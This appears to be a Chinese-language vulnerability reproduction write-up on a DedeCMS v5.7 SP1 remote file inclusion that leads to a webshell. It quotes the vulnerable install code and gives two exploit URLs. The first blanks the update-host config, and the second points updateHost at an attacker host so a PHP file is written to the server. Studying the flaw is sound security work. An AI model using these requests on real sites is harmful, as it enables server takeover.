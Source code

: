 
dedecms-v5.7-sp1远程文件包含getshell
==========================================
参考链接:

- [dedecms-v5.7-sp1远程文件包含getshell](http://blog.csdn.net/what_happened/article/details/53609099)

另外由于 Dedecms 不开源,官网只有最新版本的dedecms下载,网上很难找到其漏洞对应版本的安装包,导致乌云上的很多相关漏洞案例无法复现.
在github找了半天才找到一个dedecms v5.7 sp1


- 漏洞环境:
	- dedecmsv5.7sp1 ver.20140814
	- 安装完dedecms之后没有删掉install文件夹
	- **服务器上存在apache解析漏洞**

### 漏洞分析

问题代码:
```php
install/install.php.bak:

else if($step==11)
{
	require_once('../data/admin/config_update.php');
	$rmurl = $updateHost."dedecms/demodata.{$s_lang}.txt";
	
	$sql_content = file_get_contents($rmurl);
	$fp = fopen($install_demo_name,'w');     ## 将从更新地址获取到的内容写入到文件中
	if(fwrite($fp,$sql_content))
		echo '&nbsp; <font color="green">[√]</font> 存在(您可以选择安装进行体验)';
	else
		echo '&nbsp; <font color="red">[×]</font> 远程获取失败';
	unset($sql_content);
	fclose($fp);
	exit();
}

data/admin/config_update.php:

<?php
/**
 * 更新服务器，如果有变动，请到 http://bbs.dedecms.com 查询
 *
 * @version        $Id: config_update.php 1 11:36 2011-2-21 tianya $
 * @package        DedeCMS.Administrator
 * @copyright      Copyright (c) 2007 - 2010, DesDev, Inc.
 * @license        http://help.dedecms.com/usersguide/license.html
 * @link           http://www.dedecms.com
 */

//更新服务器，如果有变动，请到 http://bbs.dedecms.com 查询
$updateHost = 'http://updatenew.dedecms.com/base-v57/';
$linkHost = 'http://flink.dedecms.com/server_url.php';

```
![](images/1.jpg)
![](images/2.jpg)

先提交url:

```
http://localhost/dedecms/install/index.php.bak?step=11&insLockfile=x&s_lang=abc&install_demo_name=../data/admin/config_update.php

```

这会让从step 11开始执行,到dede的远程服务器的 `http://updatenew.dedecms.com/base-v57/dedecms/demodata.abc.txt` 中取内容,然后写入到config_update.php文件中去。

然而`demodata.abc.txt`在dedecms的远程服务器是不存在的,获取到的就没有任何内容,这就导致了`data/admin/config_update.php`中的内容被覆盖,变量`$updateHost`变为了空值,自然$updateHost变量就可以在URL中自定义了！

![](images/3.jpg)

再次提交url:
```
http://localhost/dedecms/install/index.php.bak?step=11&insLockfile=x&s_lang=abc&install_demo_name=../data/1234.php&updateHost=http://192.168.48.145/
```

![](images/4.jpg)

到这里 `http://localhost/dedecms/data/1234.php` 就写入了想要的内容。

![](images/5.jpg)